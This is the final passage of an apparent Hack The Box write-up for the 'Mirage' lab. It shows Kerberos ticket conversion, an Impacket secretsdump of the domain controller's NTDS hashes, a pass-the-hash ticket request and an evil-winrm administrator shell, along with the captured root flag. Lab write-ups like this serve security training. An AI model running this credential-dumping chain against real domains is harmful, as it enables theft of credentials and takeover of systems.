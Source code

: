 With this kirbi, we can now convert it to a ccache by echoing it into base64 -d and then using `ticketConverter.py` to convert it to a ccache.

```sh
 ticketConverter.py dc01.kirbi dc01.ccache
```

Finally we can use this ccache to do a secretsdump against the domain controller to get all authenticated credentials stored on the system.

```sh
 KRB5_CONFIG=./krb5.conf KRB5CCNAME=./dc01.ccache secretsdump.py -k -no-pass dc01.mirage.htb
/home/tokugero/ctf/htb/season8/week10-mirage/.venv/lib/python3.13/site-packages/impacket/version.py:10: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
mirage.htb\Administrator:500:aad3b435b51404eeaad3b435b51404ee:7be6d4f3c2b<snip>afb3:::
...
[*] Cleaning up... 
```


And to close out the vulnerability, we can take the hash we found, do one final getTGT and log into the system to grab the flag.


```python
!getTGT.py -hashes :7be6d4f3c2b<snip>afb3 mirage.htb/administrator
```

    /home/tokugero/ctf/htb/season8/week10-mirage/.venv/lib/python3.13/site-packages/impacket/version.py:10: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
      import pkg_resources
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    [*] Saving ticket in administrator.ccache

```sh
 KRB5_CONFIG=./krb5.conf KRB5CCNAME=./administrator.ccache evil-winrm -i dc01.mirage.htb -r MIRAGE.HTB         
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
5d0bdb0cb2facb4f9db9693e727ad8f8
```